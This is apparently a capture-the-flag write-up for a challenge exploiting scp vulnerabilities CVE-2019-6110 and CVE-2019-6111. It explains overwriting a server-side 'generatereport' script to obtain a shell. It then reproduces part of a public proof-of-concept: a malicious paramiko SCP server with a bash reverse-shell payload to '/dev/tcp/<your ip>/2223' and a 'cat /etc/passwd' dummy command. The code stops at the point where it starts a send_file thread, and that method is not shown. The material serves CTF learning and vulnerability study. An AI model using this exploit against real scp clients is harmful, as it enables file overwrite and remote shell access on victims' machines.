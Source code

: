 ### bob needs a file
`scp` CVE-2019-6110 CVE-2019-6111, there is a poc available: https://gist.github.com/mehaase/63e45c17bdbbd59e8e68d02ec58f4ca2

The server will scp a file `data.txt` from the given ip:2222, and output the "result" to ip:2223. Here is the result from the server:

```
## generated by generatereport
## generatereport failed. Error: unknown
```

One intuition is that the server will execute the file `generatereport` and return the result to ip:2223. Turned out our assumption was correct as we didn't receive any response if we overwrite the file `generatereport`. Thus, we can overwrite `generatereport` to a reverseshell bash script to get a shell.

```python
# Exploit Title: SSHtranger Things
# Date: 2019-01-17
# Exploit Author: Mark E. Haase <mhaase@hyperiongray.com>
# Vendor Homepage: https://www.openssh.com/
# Software Link: [download link if available]
# Version: OpenSSH 7.6p1
# Tested on: Ubuntu 18.04.1 LTS
# CVE : CVE-2019-6111, CVE-2019-6110

import base64
import gzip
import logging
import paramiko
import paramiko.rsakey
import socket
import threading

logging.basicConfig(level=logging.INFO)

dummy = 'cat /etc/passwd\n'

payload = '#!/bin/bash\nbash -i >& /dev/tcp/<your ip>/2223 0>&1'

class ScpServer(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()

    def check_auth_password(self, username, password):
        logging.info('Authenticated with %s:%s', username, password)
        return paramiko.AUTH_SUCCESSFUL

    def check_channel_request(self, kind, chanid):
        logging.info('Opened session channel %d', chanid)
        if kind == "session":
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED

    def check_channel_exec_request(self, channel, command):
        command = command.decode('ascii')
        logging.info('Approving exec request: %s', command)
        parts = command.split(' ')
        # Make sure that this is a request to get a file:
        assert parts[0] == 'scp'
        assert '-f' in parts
        file = parts[-1]
        # Send file from a new thread.
        threading.Thread(target=self.send_file, args=(channel, file)).start()
```